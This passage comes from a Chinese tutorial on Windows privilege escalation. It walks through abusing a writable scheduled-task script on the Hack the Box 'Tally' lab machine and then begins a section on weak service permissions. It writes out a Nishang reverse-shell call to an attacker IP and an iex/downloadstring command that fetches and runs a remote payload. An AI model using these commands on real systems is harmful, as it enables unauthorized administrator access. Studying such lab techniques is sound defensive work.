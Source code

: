   ```

## 方法7：定时任务

Windows中的定时任务是在设定的时间运行某些脚本或程序的自动化方式。就像Linux环境中的cron作业一样，定时任务让用户在特定时间运行诸如备份、更新和病毒扫描等任务；可以是每分钟、每小时，甚至每天。

如果任务具有错误配置的权限，则可能导致权限提升。这可能使低级用户能够修改任务或文件，从而允许他们使其执行任何他们想要的操作。

由于大多数任务都以管理员的权限运行（通常是创建任务的用户），因此脚本也将以这些更高的权限运行，使用户能够提升权限。

在“Hack the Box: Tally”机器上测试。一旦获得了由SQL提供的反向shell，将成为用户Sarah。

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791965-38.webp)

前往Sarah的桌面, 注意到有两个有趣的文件。

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791965-39.webp)

如果查看 .xml 文件，会注意到几件事情。带有 -ExecutionPolicy Bypass 和 -skipadmincheck 参数的 PowerShell 脚本 SPBestWarmUp.ps1将在TALLYAdministrator用户的权限下运行。它每天每小时运行一次。

由于该文件以管理员权限运行，可以使用该脚本来提升权限。但首先，看看是否有正确的权限来修改它。

可以使用以下 PowerShell 命令来检查文件的权限：

```
Get-Acl SPBestWarmUp.ps1 | Format-List
```

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791965-40.webp)

将Nishang反向shell复制到攻击机器，并在脚本底部添加以下行：

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.12 -Port 4444
```

记住使用机器的IP地址和将与Netcat端口。在与Nishang脚本相同的目录中设置一个Python服务器。

```
python3 -m http.server
```

启动Netcat监听，并使用以下命令将SPBestWarmUp.ps1文件的内容替换为反向shell。

```
echo "iex(new-object net.webclient).downloadstring('http://10.10.14.12:8000/shell2.ps1')" >SPBestWarmUp.ps1
```

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791965-41.webp)

现在等待定时任务运行。可能需要一个小时才能生成shell。

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791965-42.webp)

有时定时任务会存在错误配置的权限，给我们提权的机会。在真实的任务中，务必确保备份和恢复修改、替换或删除的任何文件。

## 方法8：弱服务权限



在Windows中，服务允许应用程序以一定权限在后台运行。这些服务可以以不同的特权级别运行，取决于它们的配置方式。这可以是从低级用户一直到系统帐户。

```